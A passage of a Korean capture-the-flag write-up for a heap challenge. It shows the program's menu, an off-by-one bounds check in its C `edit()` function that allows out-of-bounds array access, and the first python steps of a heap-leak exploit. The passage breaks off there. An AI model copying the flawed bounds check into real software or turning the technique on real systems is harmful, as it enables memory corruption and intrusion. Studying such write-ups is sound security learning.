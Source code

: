 ``` bash
0. Exit
> 2

List Data
<ARRAY(4)>
[00] <EMPTY>
[01] <EMPTY>
[02] <EMPTY>
[03] <EMPTY>
```
입력값에 따라 heap에 데이터를 자유롭게 저장하거나 조회할 수 있다.

## 0x01. Vulnerability
취약점은 `edit()` 함수에서 `Array`를 다룰 때 발생한다.
``` c
static int edit(data_t *data){
  ...
  switch(data->type){
    case TYPE_ARRAY:
      arr_t *arr = data->p_arr;

      printf("index: ");
      unsigned idx = getint();
      if(idx > arr->count)
        return -1;
      ...
  }
}
```
입력한 `idx` 값이 `arr->count`보다 큰 지 검증하는데, 두 값이 같을 경우를 검증하지 않아 OOB가 발생한다.

예를 들어 `arr->count`가 `4`이면 `data[0]~data[3]`이 생성되는데, 있지도 않은 `data[4]`에 접근할 수 있어 `arr` 바로 다음 영역에 접근할 수 있다.

새삼 이 간단한 취약점으로 쉘이 따인다니 놀랍다... 역시 취약점은 우선 exploitability를 막론하고 bug를 찾는다는 관점으로 봐야하는 것 같다.

## 0x02. Exploit
### Heap leak
우선 취약점을 트리거하기 위해 다음과 같이 `Array`를 할당한다.
``` python
    edit(s, 'u', [], 'a', 1)
    edit(s, 'u', [0], 'a', 4)
    edit(s, 'u', [0, 0], 'a', 4)
    edit(s, 'u', [0, 1], 'a', 4)
    edit(s, 'u', [0, 2], 'a', 4)
    edit(s, 'u', [0, 3], 'a', 4)
```
여기에서 `edit()`의 세 번째 인자에 들어가는 list는 `Array`의 `index`를 뜻하는데, 예를 들면 다음과 같다.

- [] : `root->*p_arr`
- [0] : [00]
- [0, 1] : [00] -> [01]
